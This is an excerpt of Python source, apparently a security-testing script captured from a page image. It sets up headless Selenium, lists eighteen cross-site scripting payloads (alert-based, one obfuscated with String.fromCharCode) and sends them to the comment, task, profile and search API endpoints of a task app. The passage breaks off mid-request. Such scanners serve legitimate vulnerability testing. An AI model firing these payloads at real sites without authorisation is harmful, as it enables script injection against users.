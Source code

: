 ```python
        
        # Setup Selenium WebDriver
        chrome_options = Options()
        chrome_options.add_argument('--headless')
        chrome_options.add_argument('--no-sandbox')
        chrome_options.add_argument('--disable-dev-shm-usage')
        self.driver = webdriver.Chrome(options=chrome_options)
        
        # XSS payloads for testing
        self.xss_payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>",
            "javascript:alert('XSS')",
            "<iframe src=javascript:alert('XSS')>",
            "<body onload=alert('XSS')>",
            "<input onfocus=alert('XSS') autofocus>",
            "<select onfocus=alert('XSS') autofocus>",
            "<textarea onfocus=alert('XSS') autofocus>",
            "<keygen onfocus=alert('XSS') autofocus>",
            "<video><source onerror=alert('XSS')>",
            "<audio src=x onerror=alert('XSS')>",
            "<details open ontoggle=alert('XSS')>",
            "<marquee onstart=alert('XSS')>",
            "'-alert('XSS')-'",
            "\";alert('XSS');//",
            "</script><script>alert('XSS')</script>",
            "<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>"
        ]
    
    def discover_xss_endpoints(self):
        """Discover potential XSS injection points"""
        print("\n[+] Discovering XSS injection points...")
        
        # Common endpoints that might be vulnerable
        test_endpoints = [
            {'url': '/api/comments/task/1', 'method': 'POST', 'param': 'content'},
            {'url': '/api/tasks', 'method': 'POST', 'param': 'title'},
            {'url': '/api/tasks', 'method': 'POST', 'param': 'description'},
            {'url': '/api/users/profile', 'method': 'PUT', 'param': 'firstName'},
            {'url': '/api/users/profile', 'method': 'PUT', 'param': 'lastName'},
            {'url': '/api/users/profile', 'method': 'PUT', 'param': 'bio'},
            {'url': '/api/tasks/search', 'method': 'GET', 'param': 'query'}
        ]
        
        vulnerable_endpoints = []
        
        for endpoint in test_endpoints:
            print(f"  Testing {endpoint['method']} {endpoint['url']} - {endpoint['param']}")
            
            for payload in self.xss_payloads[:5]:  # Test first 5 payloads
                try:
                    if endpoint['method'] == 'GET':
                        response = self.session.get(
                            f"{self.base_url}{endpoint['url']}",
                            params={endpoint['param']: payload}
                        )
                    else:
                        data = {endpoint['param']: payload}
                        response = self.session.request(
                            endpoint['method'],
                            f"{self.base_url}{endpoint['url']}",
                            json=data
```